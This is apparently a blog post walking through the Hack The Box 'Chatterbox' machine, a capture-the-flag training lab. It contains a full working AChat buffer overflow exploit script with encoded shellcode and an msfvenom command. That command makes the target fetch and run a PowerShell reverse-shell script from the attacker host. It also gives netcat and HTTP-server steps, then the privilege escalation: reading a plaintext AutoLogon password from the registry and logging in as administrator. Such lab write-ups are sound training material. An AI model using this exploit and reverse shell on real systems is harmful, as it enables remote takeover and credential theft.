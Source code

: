 ```yaml
---
layout: post
title: "HTB: Chatterbox Walkthrough"
---
```


<img src="{{ '/assets/images/chatterbox-icon.png' | relative_url }}" alt="Chatterbox Icon" />

# intro

The goal of this post is to provide an updated version of Hack The Box's machine, [Chatterbox](https://app.hackthebox.com/machines/123) (I am not sure if any one else has made a similar post but more than one doesn't hurt). 

There where a few trouble areas when doing this machine so my goal is to help anyone who may have ran into similar issues themsleves. I followed [0xdf's](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) walkthrough and there seems to be some dated steps that could be updated. I intend to correct these dated issues with this post.

Let's dive in! 

## reconnaissance

As usual with any CTF-type machine, we are going to start out with an **nmap** scan:

```bash
t3lesph0re@neptune:~$ nmap -p- 10.10.10.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 18:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.030s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```

The **nmap** scan shows that there are two _non-default_ ports outside of the default top 1000 ports that are usually open, port `9255` and `9256`. 

### AChat on port 9256

There is a service called **AChat** running on port `9255` and `9256`. There is a known [buffer overflow](https://www.exploit-db.com/exploits/36025) that affects the version of AChat running on the target machine. This exploit is sent to port `9256 / UDP`. 

## initial exploit 

Because this is a windows host, we can use [Nishang's](https://github.com/samratashok/nishang) **Invoke-PowerShellTcp.ps1** script to get a shell. 

We will create a payload with **msfvenom** and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run **Invoke-PowerShellTcp.ps1** and attempt to establish a reverse shell.

This is the **msfvenom** command to generate the shell code that we will use in the Python script (do not forget to add your Attacker IP / Port):

```bash
t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

This will save a **Python-formatted representation** of the generated payload to the file **shellcode**. When you output this file you will have your encoded shell that you will need to put into the Exploit-DB script (see below):

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# REPLACE THIS w/ Shellcode 
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"
# REPLACE THIS w/ Shellcode ^

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # UPDATED IP POINTING TO TARGET

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Once you have updated this script (I downloaded it as it s defauly file name `36025`), we will need 3 seperate terminals: Python HTTP server, listener, and the exploit script. 

1. Start the HTTP python server:

```bash
t3lesph0re@neptune:~$ python3 -m http.server 80
```
{: .wraplong }

2. Start the listener:dude

```bash
t3lesph0re@neptune:~$ nc -lnvp 8082
```

3. Run the Python script:

Because the script shebang shows **#!/usr/bin/python**, we will use **Python2**:

```bash
t3lesph0re@neptune:~$ python2 36025
```

The Python script will run and you will see that the **Invoke-PowerShellTcp.ps1** was grabbed from the Python HTTP server (`10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`). Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user **chatterbox\alfred**. 

<figure>
  <img src="{{ '/assets/images/chatterbox-revshell.png' | relative_url }}" alt="Chatterbox Reverse Shell" />
  <figcaption>Reverse Shell as user Alfred</figcaption>
</figure>

## privilege escalation to admin

From here we can use our low level user shell to enumerate the _AutoLogon_ credentials:

```powershell
PS C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
```

Here we can see that the _DefaultPassword_ **Welcome1!** is in plaintext. 

Using **winexe** we can login using this password for the user **administrator** to grab the final flag of the challenge! 

```bash
t3lesph0re@neptune:~$ winexe -U 'administrator%Welcome1!' //10.10.10.74 cmd.exe
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

I hope this was helpful!
 
# end 
